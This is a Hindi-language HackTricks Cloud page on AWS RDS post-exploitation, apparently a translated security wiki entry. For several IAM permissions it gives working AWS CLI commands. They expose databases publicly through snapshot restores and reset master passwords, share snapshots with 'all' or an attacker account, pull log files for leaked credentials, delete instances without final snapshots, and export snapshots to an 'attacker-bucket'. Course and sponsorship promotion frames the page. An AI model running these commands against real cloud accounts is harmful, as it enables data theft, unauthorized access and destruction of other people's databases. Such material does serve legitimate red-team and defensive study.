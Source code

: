 # AWS - RDS Post Exploitation

<details>

<summary><strong>AWS हैकिंग सीखें शुरुआत से लेकर एक्सपर्ट तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a> <strong>के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## RDS

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

यदि हमलावर के पास पर्याप्त अनुमतियां हैं, तो वह **DB को सार्वजनिक रूप से सुलभ** बना सकता है, DB का स्नैपशॉट बनाकर, और फिर स्नैपशॉट से एक सार्वजनिक रूप से सुलभ DB बनाकर.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

इन अनुमतियों के साथ एक हमलावर **DB का एक स्नैपशॉट बना सकता है** और इसे **सार्वजनिक रूप से** **उपलब्ध** कर सकता है। फिर, वह अपने खाते में उस स्नैपशॉट से एक DB बना सकता है।

अगर हमलावर के पास `rds:CreateDBSnapshot` **नहीं है**, तो भी वह **अन्य** बनाए गए स्नैपशॉट्स को **सार्वजनिक** बना सकता है।

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` अनुमति के साथ एक हमलावर **RDS इंस्टेंस की लॉग फाइलों के हिस्सों को डाउनलोड कर सकता है**। यदि संवेदनशील डेटा या पहुँच प्रमाणपत्र गलती से लॉग किए जाते हैं, तो हमलावर इस जानकारी का उपयोग अपने विशेषाधिकारों को बढ़ाने या अनधिकृत क्रियाएं करने के लिए कर सकता है।

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी तक पहुँच या लीक हुए क्रेडेंशियल्स का उपयोग करके अनधिकृत क्रियाएँ।

### `rds:DeleteDBInstance`

इन अनुमतियों वाला हमलावर **मौजूदा RDS इंस्टेंसेस पर DoS कर सकता है**।

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```

**संभावित प्रभाव**: मौजूदा RDS इंस्टेंस का विलोपन, और संभावित डेटा हानि।

### `rds:StartExportTask`

{% hint style="info" %}
TODO: परीक्षण करें
{% endhint %}

इस अनुमति के साथ एक हमलावर **RDS इंस्टेंस स्नैपशॉट को S3 बकेट में निर्यात कर सकता है**। यदि हमलावर के पास गंतव्य S3 बकेट पर नियंत्रण है, तो वे निर्यात किए गए स्नैपशॉट के भीतर संवेदनशील डेटा तक संभावित रूप से पहुँच सकते हैं।

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**संभावित प्रभाव**: निर्यात किए गए स्नैपशॉट में संवेदनशील डेटा तक पहुँच।

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>शून्य से नायक तक</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
